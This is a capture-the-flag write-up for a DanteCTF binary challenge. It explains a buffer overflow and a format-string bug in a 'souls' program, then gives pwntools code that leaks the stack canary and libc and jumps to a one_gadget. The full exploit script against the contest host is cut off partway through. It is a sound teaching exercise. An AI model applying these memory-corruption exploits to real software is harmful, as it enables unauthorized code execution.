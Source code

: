 1. when creating a new soul, we can make our Month to be whatever we want. (and not just Feb,Jan, etc.)

2. buffer overflow when reading the date from the user.

![image](https://github.com/Itay212121/Weekly-CTF/assets/56035342/4c8d2643-022b-4624-874e-51d1db183f89)

the `read_string` function is using read to read the input, which doesn't stops at null bytes.

This means an attacker can write a null byte as the twelve byte, and continue writing to the buffer and overwriting the return pointer.

3. The view_soul functionllity has a FSB:
```c
  printf("Soul name: %s\nCircle: %d\nMeeting date: ", (const char *)souls[v1], *(unsigned int *)(souls[v1] + 32LL));
  printf((const char *)(souls[v1] + 36LL));
  ```
  
  it basiclly prints the date varible we can provide, which can give us leaks.
  
  # Exploition:
  
  Our idea would be to leak the stack canary and libc using the fsb, and then just a classic one_gadget call.
  
  I saw that the canary is 9 bytes after the addresses given in the fsb, so '%9$p: aaaaa\x00' would be it. (remember we need to make strlen to be 11)

  And by doing the same to the libc, I saw that a libc address is located 15 bytes after.

  Now we basiclly have our leaks:
  
  ```py
leak_canary_chunk = insert(1, 'A' * (0x20-1), 1, b'%9$p: aaaaa\x00')
leak = view(leak_canary_chunk)
canary = extract_fsb_leak(leak)


leak_libc_chunk = insert(3, 'C' * (0x20-1), 1, b'%15$p: aaaa\x00')
leak = view(leak_libc_chunk)
libc_leak = extract_fsb_leak(leak)

libc.address = libc_leak - 0x29d90
```

Now we just need to use our buffer overflow bug, and jump to our one_gadget!
```
bof_chunk = insert(2, 'E' * (0x20 - 1), 2, b'B'*11+b'\x00'*29 + p64(canary) + p64(0) + p64(0x50a37+libc.address))
```

I really enjoyed this challenge, cause I really speed ran it :) (got the first blood here)

Full exploit:

```py
from pwn import *

e = ELF('./bin')
#p = gdb.debug('./bin')
p = remote('challs.dantectf.it', 31530)
libc = ELF('libc.so.6')
def insert(pos, name, circle, date):
	p.sendline("1")
	p.recvuntil(': ')
	p.sendline(str(pos))
	p.recvuntil(': ')
	p.sendline(name)
	p.recvuntil(': ')
```